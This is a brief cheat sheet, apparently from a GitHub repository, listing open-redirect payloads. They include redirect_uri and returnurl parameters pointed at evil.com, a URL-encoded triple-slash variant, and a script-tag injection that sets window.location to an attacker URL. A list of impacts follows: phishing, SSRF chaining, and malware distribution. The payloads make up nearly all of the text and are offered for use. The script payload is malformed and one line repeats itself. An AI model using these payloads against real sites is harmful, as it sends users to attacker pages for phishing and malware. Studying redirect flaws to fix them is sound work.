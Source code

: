 # open redirect


1 - payload: {evil.com} 


===>>> example: site.com/.../redirect_uri=evil.com/...


2 - payload: {///%5Cevil.com/} 


===>>> example: site.com///%5Cevil.com/ 


3 - payload:  </script>window.location"http://evil.com"</script>


===>>> example: search box : injection


4 - payload: {evil.com}


===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com



## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
  
